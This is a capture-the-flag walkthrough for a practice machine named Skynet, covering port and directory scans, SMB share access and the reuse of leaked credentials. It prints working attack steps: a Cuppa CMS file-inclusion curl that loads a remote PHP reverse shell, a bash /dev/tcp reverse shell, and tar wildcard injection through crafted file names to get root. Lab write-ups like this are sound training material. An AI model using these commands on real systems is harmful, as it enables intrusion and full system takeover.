 #CTF 

## Recon

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 992331bbb1e943b756944cb9e82146c5 (RSA)
|   256 57c07502712d193183dbe4fe679668cf (ECDSA)
|_  256 46fa4efc10a54f5757d06d54f6c34dfe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Skynet
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: SASL AUTH-RESP-CODE PIPELINING RESP-CODES UIDL CAPA TOP
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: OK post-login more ID capabilities have Pre-login LOGINDISABLEDA0001 LITERAL+ IDLE IMAP4rev1 SASL-IR listed ENABLE LOGIN-REFERRALS
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: 0s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-06-08T17:49:15
|_  start_date: N/A
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2023-06-08T12:49:16-05:00
```

Gobuster

```
===============================================================
2023/06/08 13:50:19 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 314] [--> http://10.10.254.249/admin/]
/config               (Status: 301) [Size: 315] [--> http://10.10.254.249/config/]                                                              
/css                  (Status: 301) [Size: 312] [--> http://10.10.254.249/css/]                                                                 
/index.html           (Status: 200) [Size: 523]
/js                   (Status: 301) [Size: 311] [--> http://10.10.254.249/js/]                                                                  
/server-status        (Status: 403) [Size: 278]
/squirrelmail         (Status: 301) [Size: 321] [--> http://10.10.254.249/squirrelmail/]                                                        
Progress: 4584 / 4615 (99.33%)
===============================================================
2023/06/08 13:50:54 Finished
===============================================================
```

## Access

To see the SMB shares I type
`smbmap -H 10.10.254.249 `

```
[+] Guest session       IP: 10.10.254.249:445   Name: 10.10.254.249                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
```

anonymous I readonly , so I can access it, and to do so I type:
`smbclient //[ip]/anonymous` and I am in.
I grab attention.txt and the log files.
log1.txt has some potential passwords

I navigate to the http page /squirrelmail
I enter milesdyson as username and as password cyborg007haloterminator that I took from log1.txt

I am in. I open the first mai and it says
```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

I have the creds for the milesdyson smb share
So I login. I get /notes/important.txt
```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

The secret directory is /45kra24zxs28v3yd
I use Gobuster on it
```
===============================================================
2023/06/08 14:08:35 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/administrator        (Status: 301) [Size: 339] [--> http://10.10.254.249/45kra24zxs28v3yd/administrator/]                                      
/index.html           (Status: 200) [Size: 418]
Progress: 4587 / 4615 (99.39%)
===============================================================
2023/06/08 14:09:09 Finished
===============================================================
```


## Exploitation

I go to /administrator and find a login form.
I will try to exploit the Cuppa CMS
```
searchsploit cuppa      
-------------------------------------- ---------------------------------
 Exploit Title                        |  Path
-------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' L | php/webapps/25971.txt
-------------------------------------- ---------------------------------
```

I downloaded a reverse shell script , changed the ip and port.
I opened a Netcat session on that port
I opened a python local server
Lastly I typed
```
curl http://[ip]/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php/?urlConfig\=http://10.8.100.122:80/php-reverse-shell.php
```

So the netcat session got the connection.
Found the flag on /home/milesdyson
`7ce5c2109a40f958099283600a9ae807`
## Privilege Escalation

By viewing /etc/crontab 
```
# m h dom mon dow user  command                                                                                                                                                                                                             
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh                                                                                                                                                                                  
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly                                                                                                                                                                         
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )                                                                                                                                         
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )                                                                                                                                        
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )   
```

I notice that  /home/milesdyson/backups/backup.sh get called every minute
```
#!/bin/bash                                     
cd /var/www/html                                        
tar cf /home/milesdyson/backups/backup.tgz * 
```


I open a Netcat listener on 8585

To exploit it I type
`cd /var/www/html`
`printf '#!/bin/bash\nbash -i >& /dev/tcp/10.8.100.122/8585 0>&1\n' > rev.sh``
`touch /var/www/html/--checkpoint-action=exec=bash\ rev.sh`
 `touch /var/www/html/--checkpoint=1`

And I am in as root and get the flag
`3f0372db24753accc7179a282cd6a949`